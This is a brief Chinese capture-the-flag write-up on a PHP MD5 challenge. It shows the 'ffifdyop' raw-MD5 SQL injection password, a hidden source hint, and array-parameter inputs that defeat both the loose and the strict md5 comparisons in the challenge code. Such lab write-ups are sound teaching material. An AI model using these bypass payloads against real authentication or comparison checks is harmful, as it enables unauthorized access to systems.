 #MD5

![Pasted image 20230301205307.png](../../.image/Pasted%20image%2020230301205307.png)
使用 ffifdyop 万能密码
之后查看源码，发现提示

```php
<!--
$a = $GET['a'];
$b = $_GET['b'];
if($a != $b && md5($a) == md5($b)){
    header('Location: levell14.php');
-->
```

数组绕过

```url
a[]=1&b[]=2
```

```php
<?php
error_reporting(0);
include "flag.php";
highlight_file(__FILE__);
if ($_POST['param1'] !== $_POST['param2'] && md5($_POST['param1']) === md5($_POST['param2'])) {
    echo $flag;
}
```

数组绕过

```url
param1[]=1&param2[]=2
```
